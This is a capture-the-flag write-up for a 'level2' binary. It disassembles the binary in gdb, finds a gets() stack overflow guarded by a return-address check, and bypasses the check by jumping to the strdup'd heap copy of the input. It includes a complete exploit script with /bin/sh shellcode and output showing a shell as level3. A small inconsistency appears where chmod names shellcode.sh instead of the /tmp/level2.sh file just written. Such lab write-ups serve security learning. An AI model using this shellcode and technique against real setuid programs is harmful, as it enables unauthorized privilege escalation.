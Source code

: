 level2
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:  push  ebp
   0x08048540 <+1>:  mov   ebp,esp
   0x08048542 <+3>:  and   esp,0xfffffff0
   0x08048545 <+6>:  call  0x80484d4 <p>
   0x0804854a <+11>: leave
   0x0804854b <+12>: ret
End of assembler dump.
```

It calls another function p:
```sh
FUNCTION=p EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:     55                   push  ebp
   0x080484d5 <+1>:     89 e5                mov   ebp,esp
   0x080484d7 <+3>:     83 ec 68             sub   esp,0x68
   0x080484da <+6>:     a1 60 98 04 08       mov   eax,ds:0x8049860
   0x080484df <+11>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484e2 <+14>:    e8 c9 fe ff ff       call  0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x080484ea <+22>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484ed <+25>:    e8 ce fe ff ff       call  0x80483c0 <gets@plt>
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -0x4c   | char data[76] | 76   |
|  0x00   | *EBP          |  4   |
|  0x04   | *EIP          |  4   |

Exploitation
------------

This is another stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

We can override the value of EIP by using 80 bytes of padding, followed by the address we want to jump to.
We could try to jump onto the stack-buffer.

First we need to find out at which address the stack-buffer starts.
```sh
gdb ./level2 -batch -ex 'b * 0x080484f2' -ex 'r <<<ABCD' -ex 'p (char*)$ebp - 0x4c'
```
```
Breakpoint 1 at 0x80484f2

Breakpoint 1, 0x080484f2 in p ()
$1 = 0xbffff6ec "ABCD"
```

```sh
ADDRESS="bffff6ec"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(printf '%.0sA' {1..80}; echo $BYTES) | ./level2
```
```
(0xbffff6ec)
```

Oh no, it looks like we where caught!
```nasm
...
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
...
```

Upon closer inspection, we can see that the stored value of the EIP (EBP + 4) is checked and the program exits if it is above 0xb0000000.
So we cannot jump onto our stack-buffer.

But we can also see that our input is being duplicated into an unfreed heap-allocated buffer, before the function returns.
```nasm
...
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

If we find out it's address we can jump onto it instead of the stack-buffer, and bypass the stack-check.
```sh
gdb ./level2 -batch -ex 'b * 0x0804853e' -ex 'r <<<ABCD' -ex 'p (char*)$eax'
```
```
Breakpoint 1 at 0x804853e
ABCD

Breakpoint 1, 0x0804853e in p ()
$1 = 0x804a008 "ABCD
```

Perfect, now all that's left to do is to place some shellcode at the start of the buffer.

I'll use [Geyslan G. Bem's tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php):


```sh
> /tmp/level2.sh cat << EOF
```
```bash
#!/usr/bin/env bash
RETURN_ADDRESS=0804a008
SIZE=80
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LC_ALL=C # Count bytes instead of graphemes
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

PADDING_SIZE=$((SIZE-${#SHELLCODE}))
PADDING=$(printf '%.0sA' $(seq -s' ' "$PADDING_SIZE"))

echo "$SHELLCODE$PADDING$BYTES"
```
```sh
EOF
chmod +x shellcode.sh
```

```sh
(/tmp/level2.sh; cat) | ./level2
```
```
1É÷á°
     Qh//shh/binã̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
whoami
level3
```